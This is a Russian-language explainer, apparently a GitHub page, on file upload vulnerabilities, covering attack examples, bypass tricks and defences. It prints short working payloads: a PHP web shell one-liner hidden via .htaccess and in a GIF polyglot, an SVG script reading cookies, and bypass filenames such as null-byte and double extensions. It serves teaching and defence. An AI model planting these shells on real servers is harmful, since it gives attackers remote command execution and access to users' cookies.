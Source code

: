 ## Что это за уязвимость

File Upload Vulnerability — это уязвимость, связанная с ненадёжной обработкой загружаемых пользователями файлов на стороне сервера. Эта уязвимость может позволить злоумышленнику:

- загрузить исполняемый файл (например, PHP web shell);
- выполнить удалённый код на сервере (RCE);
- получить обход аутентификации;
- перезаписать существующие файлы;
- использовать сервер как хранилище для вредоносного ПО или запрещённых файлов.

## Почему она опасна

- Попадание на сервер shell-скрипта часто приводит к полной компрометации;
- Возможен доступ к облаку или базе данных;
- Используется в автоматизированных атаках (ботами);
- Может привести к утечке данных или дефейсу сайта.

## Примеры атак

### Пример 1: Взлом на базе uCoz

`http://victim-site.com/uploads/myshell.php`

### Пример 2: Shell через .htaccess

```plaintext
.htaccess: AddType application/x-httpd-php .jpg
shell.jpg: <?php system($_GET['cmd']); ?>
```

### Пример 3: Polyglot-файл (GIF + PHP)

```php
GIF89a
<?php system($_GET['cmd']); ?>
```

### Пример 4: SVG-инъекция

```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.cookie)</script>
</svg>
```

### Пример 5: Перезапись .env через LFI + Upload

Загружаем `payload.php` → `?page=../../uploads/payload.php`

## Как искать уязвимость

### Ручной подход

- Пробуем загрузить `.php`, `.jsp`, `.svg`, `.exe`;
- Меняем Content-Type в Burp Suite;
- Проверяем возможность обхода имени файла, MIME и доступа.

### Инструменты

- Fuxploider
- Burp Suite Intruder
- WFuzz
- Nikto, Wapiti
- Dirsearch

## Типы обходов защит

| Обход | Пример |
|-------|--------|
| Двойное расширение | shell.jpg.php |
| Null Byte | shell.php%00.jpg |
| Polyglot-файл | GIF89a + PHP |
| MIME Spoofing | Content-Type: image/jpeg |
| Base64 payload | SVG с встроенным кодом |
| ZIP Bomb / Slip | Архивы с ../shell.php |

## Защита

- Белый список расширений;
- Проверка MIME и сигнатур;
- Переименование + хранение вне webroot;
- Запрет на выполнение скриптов;
- Лимит размера и обработка изображений.

## Расширенные техники обхода

- Использование редких расширений: `.phtml`, `.phar`
- Подделка Content-Type: image/png
- Имя файла с символами: `%20`, `%09`
- SVG и PDF с XSS и JavaScript
- `.htaccess` для смены интерпретатора
- ZIP Slip атаки и символические ссылки
- PUT/PATCH обходы
- API с base64-инъекциями

## Заключение

File Upload — одна из самых опасных уязвимостей. Один неправильный фильтр — и сервер под контролем атакующего.
